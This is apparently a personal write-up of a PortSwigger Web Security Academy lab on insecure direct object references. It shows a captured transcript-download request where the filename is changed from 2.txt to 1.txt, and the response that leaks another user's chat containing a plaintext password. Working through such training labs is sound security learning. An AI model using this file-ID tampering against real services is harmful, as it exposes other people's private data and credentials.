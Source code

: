 #web #websecurity #webexploitation 

https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references

![](_attachment/Pasted%20image%2020250329161446.png)

This button will download the transcript

Note: filename is `2.txt`

`CONNECTED: -- Now chatting with Hal Pline --<br/>You: test<br/>Hal Pline: How do you stay in a job if you don't know something that basic?`

We simply pick this request:

```http
GET /download-transcript/2.txt HTTP/2
Host: 0a3e005d049d9aaa80e6b2bb00470057.web-security-academy.net
Cookie: session=ANFsi8E48AJJrsxrcKtWs21v8GEwG5dV
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3e005d049d9aaa80e6b2bb00470057.web-security-academy.net/chat
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

and change filename to `1.txt`

Response:

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Content-Disposition: attachment; filename="1.txt"
X-Frame-Options: SAMEORIGIN
Content-Length: 520

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is y39buyg0il6iobfjq0ca. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!
```

![](_attachment/Pasted%20image%2020250329161806.png)

